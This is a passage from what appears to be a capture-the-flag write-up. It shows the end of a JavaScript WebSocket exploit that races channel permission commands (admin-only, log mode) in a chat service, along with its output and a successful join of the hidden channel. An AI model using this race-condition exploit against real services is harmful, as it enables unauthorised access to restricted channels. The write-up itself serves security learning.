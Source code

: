 ```js
  };
  
  // Wait for connection to open
  await new Promise(resolve => {
    if (socket.readyState === WebSocket.OPEN) {
      resolve();
    } else {
      socket.addEventListener('open', resolve, { once: true });
    }
  });
  
  console.log('WebSocket connected. Executing steps...');
  
  try {
    // Step 1: Create channel
    socket.send(`/create ${channelName}`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    // Step 2: Join channel
    socket.send(`/join ${channelName}`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    // Step 3: Make channel hidden
    socket.send(`/set channel.hidden true`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    console.log(`Starting race condition on channel: ${channelName}`);
    
    // Execute the race condition exploit - send commands in rapid succession
    // No delay between them to maximize race condition chance
    socket.send(`/set channel.admin-only true`);
    socket.send(`/set channel.mode log`);
    socket.send(`/set channel.admin-only false`);
    
    console.log("Race condition attempt executed!");
  } catch (error) {
    console.error("Error:", error);
  }
})();
```

> This script was made by [ClovisMint](https://www.linkedin.com/in/kbettridge/), and was solver!

After a few tries with the script: 
```
Starting race condition on channel: exploit_udmq9wev
...
Race condition attempt executed!
```

I try to `/join exploit_udmq9wev`:
```
Switched to channel 'exploit_udmq9wev'
```
